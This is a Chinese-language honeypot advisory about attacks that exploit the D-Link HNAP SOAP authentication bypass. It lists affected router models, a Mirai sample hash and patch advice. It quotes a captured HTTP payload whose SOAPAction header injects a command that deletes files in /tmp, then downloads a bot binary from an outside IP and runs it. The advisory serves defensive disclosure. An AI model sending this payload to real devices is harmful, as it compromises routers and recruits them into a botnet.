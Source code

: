 ```yaml
---
layout:     post
title:      
subtitle:   
date:
author:     shenzhen_antiy_wly
header-img: img/avatar-by.jpg
catalog: true
tags:
    - honeypot_event
---
```


# D-Link HNAP SOAP 查询验证绕过漏洞通报

## 概述

2018年8月22日，安天蜜网捕获到利用D-Link HNAP SOAP 查询验证绕过漏洞的攻击流量，并关联到一个僵尸网络站点，监控到里面有bin僵尸程序，站点地址为：http://176.32.32.156.

## 漏洞描述

通过使用hxxp：//purenetworks.com/HNAP1/GetDeviceSettings可以创建一个可以绕过认证的SOAP查询。 另外，由于不正确的字符串处理，运行系统命令（导致任意代码执行）是可行的。 当两个问题结合在一起时，可以形成一个首先绕过认证的SOAP请求，然后导致任意代码执行.

## 捕获载荷

```
POST /HNAP1/ HTTP/1.0..Content-Type: text/xml; charset=\"utf-8\"..SOAPAction: http://purenetworks.com/HNAP1/`cd /tmp && rm -rf * && wget http://176.32.32.156/bin && sh /tmp/bin`..Content-Length: 640....<?xml version=\"1.0\" encoding=\"utf-8\"?><soap:Envelope xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\" xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\" xmlns:soap=\"http://schemas.xmlsoap.org/soap/envelope/\"><soap:Body><AddPortMapping xmlns=\"http://purenetworks.com/HNAP1/\"><PortMappingDescription>foobar</PortMappingDescription><InternalClient>192.168.0.100</InternalClient><PortMappingProtocol>TCP</PortMappingProtocol><ExternalPort>1234</ExternalPort><InternalPort>1234</InternalPort></AddPortMapping></soap:Body></soap:Envelope>..~
```



## 	攻击IP及URL

http://176.32.32.156/bin

## 样本



| 文件名 | 病毒家族 | Hash                             |
| ------ | -------- | -------------------------------- |
| bin    | Mirai    | 5ab32bdead9a6043f0db9ab7809be4f1 |



## 受影响范围



DAP-1522 revB

DAP-1650 revB

DIR-880L

DIR-865L

DIR-860L revA

DIR-860L revB

DIR-815 revB

DIR-300 revB

DIR-600 revB

DIR-645

TEW-751DR

TEW-733GR 





## 修复及防护建议



关闭HNAP或使用官网的固件补丁进行升级



## 参考资料



[1]     D-Link DIR-890L安全分析报告

<http://www.freebuf.com/vuls/64521.html>

[2]     Masuta : Satori 开发者的第二个僵尸网络，利用新的路由器漏洞实现武器化

<http://www.myzaker.com/article/5a6fc5b51bc8e0ac5a00000a/>

[3]     Hacking the D-Link DIR-890L

<http://www.devttys0.com/2015/04/hacking-the-d-link-dir-890l/>